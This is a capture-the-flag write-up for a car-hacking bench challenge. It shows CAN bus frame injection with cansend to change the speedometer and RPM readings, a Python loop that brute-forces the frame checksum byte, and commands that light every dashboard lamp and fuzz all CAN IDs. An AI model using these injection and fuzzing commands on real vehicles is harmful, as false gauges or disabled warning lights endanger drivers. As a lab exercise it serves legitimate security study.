


# Physical_Bench_One

## Challenge 

Where are my airbags?

	30
	Medium
	Have you seen my airbags? Turn off the airbag light to show that you found it. Once you are done, show the results to a crew to get your points awarded.

RPM it for me?

	50
	Medium
	Make the RPM go to 4000. Once you are done, show the results to a crew to get your points awarded.

Show me the speed!

	80
	Medium
	Increment the speedometer and max out the speed. Once you are done, show the results to a crew to get your points awarded.

Hint: canplayer the file to get your ID

## Solution

Not the intended solution because there was supposed to be a log file, but someone else deleted it and left 3 test files.

	test.sh = Nothing happens
	test2.sh = Car handle lights (P, N, D)
	test3.sh = Change speedometer

### Speedometer

Observe test3.sh

Middle 2 bytes change for the speed. Last byte seems like it is some checksum and there is a sequence that must be sent.

I took a random exerpt, from test3.sh. The spedometer stuck just under 1000. From inspection, middle 2 bytes 0x0367 = 871, which corresponds to the speedometer.

	while true; do
	cansend slcan0 1DC#0203672A
	cansend slcan0 1DC#02036739
	cansend slcan0 1DC#02036B08
	cansend slcan0 1DC#02036B17
	cansend slcan0 1DC#02036F22
	cansend slcan0 1DC#02036F31
	cansend slcan0 1DC#02037002
	cansend slcan0 1DC#02036B17
	cansend slcan0 1DC#02036B26
	cansend slcan0 1DC#0203653B
	cansend slcan0 1DC#0203650E
	cansend slcan0 1DC#0203651D
	cansend slcan0 1DC#0203632E
	cansend slcan0 1DC#0203633D
	cansend slcan0 1DC#0203650E
	cansend slcan0 1DC#0203651D
	cansend slcan0 1DC#02036829
	cansend slcan0 1DC#02036838
	cansend slcan0 1DC#02036003
	done

The last byte is some checksum, try bruteforcing the final byte to see if it works.

	while true; do python3 -c 'for i in range(256): __import__("os").system( "cansend slcan0 1DC#020360" + ("%02x" % i) )'; done

It works, so I changed one byte to be 0x0f. 0x0f60=3936. And yes the RPM points to 4000 approx.

	while true; do python3 -c 'for i in range(256): __import__("os").system( "cansend slcan0 1DC#020f60" + ("%02x" % i) )'; done

"RPM it for me" flag.

## Testing

### Dashboard lights

Get unique commands

	$ cat test2.sh | sort | uniq > test2_uniq.sh

When playing it the lamps light up light crazy

This command will light up everything on the dashboard.

	while true; do python3 -c 'for i in range(256): __import__("os").system( "cansend slcan0 188#FFFFFFFFFF" + ("%02x" % i) )'; done

### Other commands

	$ cangen vcan0 -g 10 -I i -L 8 -D 0000000000000000 -v -v
	$ while true; do cansend slcan0 294#FFFFFFFFFFFFFF2D; done
	$ while true; do seq 0 4095 | while read n; do echo "$(printf '%03X' $n)#0000000000000000" ; done; done
